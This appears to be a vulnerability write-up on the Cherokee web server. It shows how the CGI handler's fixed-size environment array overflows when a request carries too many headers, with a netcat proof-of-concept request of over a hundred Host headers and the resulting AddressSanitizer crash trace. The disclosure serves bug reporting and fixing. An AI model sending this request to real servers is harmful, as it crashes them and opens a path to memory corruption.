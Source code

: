 Structure `cherokee_handler_cgi_t` has fixed size array for environmental variables including request headers. When the handler processes a request it adds entries without checking whether boundary value was reached.

{% highlight x %}
310     cgi->envp[cgi->envp_last] = entry;
311     cgi->envp_last++;
{% endhighlight %}

So, sending a request with enough headers causes writing outside the array.
{% highlight x %}
echo -e 'GET /test10/test.html HTTP/1.1\nHost: 127.0.0.1\nHost: 127.0.0.1\nHost: 127.0.0.1\nHost: 127.0.0.1\nHost: 127.0.0.1\nHost: 127.0.0.1\nHost: 127.0.0.1\nHost: 127.0.0.1\nHost: 127.0.0.1\nHost: 127.0.0.1\nHost: 127.0.0.1\nHost: 127.0.0.1\nHost: 127.0.0.1\nHost: 127.0.0.1\nHost: 127.0.0.1\nHost: 127.0.0.1\nHost: 127.0.0.1\nHost: 127.0.0.1\nHost: 127.0.0.170141183460469231731687303715884105727\nHost: 127.0.0.1\nHost: 127.0.0.1\nHost: 127.0.0.1\nHost: 127.0.0.1\nHost: 127.0.0.1\nHost: 127.0.0.1\nHost: 127.0.0.1\nHost: 127.0.0.1\nHost: 127.0.0.1\nHost: 127.0.0.1\nHost: 127.0.0.1\nHost: 127.0.0.1\nHost: 127.0.0.1\nHost: 127.0.0.1\nHost: 127.0.0.1\nHost: 127.0.0.1\nHost: 127.0.0.1\nHost: 127.0.0.1\nHost: 127.0.0.1\nHost: 127.0.0.1\nHost: 127.0.0.1\nHost: 127.0.0.1\nHost: 127.0.0.1\nHost: 127.0.0.1\nHost: 127.0.0.1\nHost: 127.0.0.1\nHost: 127.0.0.1\nHost: 127.0.0.1\nHost: 127.0.0.1\nHost: 127.0.0.1\nHost: 127.0.0.1\nHost: 127.0.0.1\nHost: 127.0.0.1\nHost: 127.0.0.1\nHost: 127.0.0.1\nHost: 127.0.0.1\nHost: 127.0.0.1\nHost: 127.0.0.1\nHost: 127.0.0.1\nHost: 127.0.0.1\nHost: 127.0.0.1\nHost: 127.0.0.1\nHost: 127.0.0.1\nHost: 127.0.0.1\nHost: 127.0.0.1\nHost: 127.0.0.1\nHost: 127.0.0.1\nHost: 127.0.0.1\nHost: 127.0.0.1\nHost: 127.0.0.1\nHost: 127.0.0.1\nHost: 127.0.0.1\nHost: 127.0.0.1\nHost: 127.0.0.1\nHost: 127.0.0.1\nHost: 127.0.0.1\nHost: 127.0.0.1\nHost: 127.0.0.1\nHost: 127.0.0.1\nHost: 127.0.0.1\nHost: 127.0.0.1\nHost: 127.0.0.1\nHost: 127.0.0.1\nHost: 127.0.0.1\nHost: 127.0.0.1\nHost: 127.0.0.1\nHost: 127.0.0.1\nHost: 127.0.0.1\nHost: 127.0.0.1\nHost: 127.0.0.1\nHost: 127.0.0.1\nHost: 127.0.0.1\nHost: 127.0.0.1\nHost: 127.0.0.1\nHost: 127.0.0.1\nHost: 127.0.0.1\nHost: 127.0.0.1\nHost: 127.0.0.1\nHost: 127.0.0.1\nHost: 127.0.0.1\nHost: 127.0.0.1\nHost: 127.0.0.1\nHost: 127.0.0.1\nHost: 127.0.0.1\nHost: 4294967295.0.0.1\nHost: 127.0.0.1\nHost: 127.0.0.1\nHost: 127.0.0.1\nHost: 127.0.0.1\nHost: 127.0.0.1\nHost: 127.0.0.1\nHost: 127.0.0.1\nHost: 127.0.0.1\nHost: 127.0.0.1\nHost: 127.0.0.1\nHost: 127.0.0.1\nHost: 127.0.0.1\nHost: 127.0.0.1\nHost: 127.0.0.1\nHost: 127.0.0.1\nHost: 127.0.0.1\nHost: 127.0.0.1\nHost: 127.0.0.1\nHost: 127.0.0.1\nHost: 127.0.0.1\nHost: 127.0.0.1\nHost: 127.0.0.1\nHost: 127.0.0.1\nHost: 127.0.0.1\nHost: 127.0.0.1\nHost: 127.0.0.1\nHost: 127.0.0.1\nHost: 127.0.0.1\nHost: 127.0.0.1\nHost: 127.0.0.1\nHost: 127.0.0.1\nHost: 127.0.0.1\nHost: 127.0.0.1\nHost: 127.0.0.1\nHost: 127.0.0.1\nHost: 127.0.0.1\nHost: 127.0.0.1\nHost: 127.0.0.1\nUser-Agent: python\n\n' | nc 127.0.0.1 80
{% endhighlight %}

{% highlight x %}
=================================================================
==10864==ERROR: AddressSanitizer: SEGV on unknown address 0x6180001cb3c0 (pc 0x55c74bfd2f94 bp 0x7f6bac2e6220 sp 0x7f6bac2e61f0 T7)
==10864==The signal is caused by a WRITE memory access.
    #0 0x55c74bfd2f93 in cherokee_handler_cgi_add_env_pair /home/mmm/fuzz/webserver/cherokee/handler_cgi.c:310
    #1 0x55c74c02d6e4 in foreach_header_add_unknown_variable /home/mmm/fuzz/webserver/cherokee/handler_cgi_base.c:664
    #2 0x55c74c09fe32 in cherokee_header_foreach_unknown /home/mmm/fuzz/webserver/cherokee/header.c:1220
    #3 0x55c74c02db36 in cherokee_handler_cgi_base_build_envp /home/mmm/fuzz/webserver/cherokee/handler_cgi_base.c:696
    #4 0x55c74bfd30f3 in add_environment /home/mmm/fuzz/webserver/cherokee/handler_cgi.c:328
    #5 0x55c74bfd6912 in fork_and_execute_cgi_via_spawner /home/mmm/fuzz/webserver/cherokee/handler_cgi.c:787
    #6 0x55c74bfd35a8 in cherokee_handler_cgi_init /home/mmm/fuzz/webserver/cherokee/handler_cgi.c:382
    #7 0x55c74c04b44c in cherokee_handler_init /home/mmm/fuzz/webserver/cherokee/handler.c:93
    #8 0x55c74c048233 in cherokee_connection_open_request /home/mmm/fuzz/webserver/cherokee/connection.c:2678
    #9 0x55c74bf84889 in process_active_connections /home/mmm/fuzz/webserver/cherokee/thread.c:1165
    #10 0x55c74bf8a549 in cherokee_thread_step_MULTI_THREAD /home/mmm/fuzz/webserver/cherokee/thread.c:2086
    #11 0x55c74bf7e300 in thread_routine /home/mmm/fuzz/webserver/cherokee/thread.c:99
    #12 0x7f6bb2b166da in start_thread (/lib/x86_64-linux-gnu/libpthread.so.0+0x76da)
    #13 0x7f6bb263b88e in __clone (/lib/x86_64-linux-gnu/libc.so.6+0x12188e)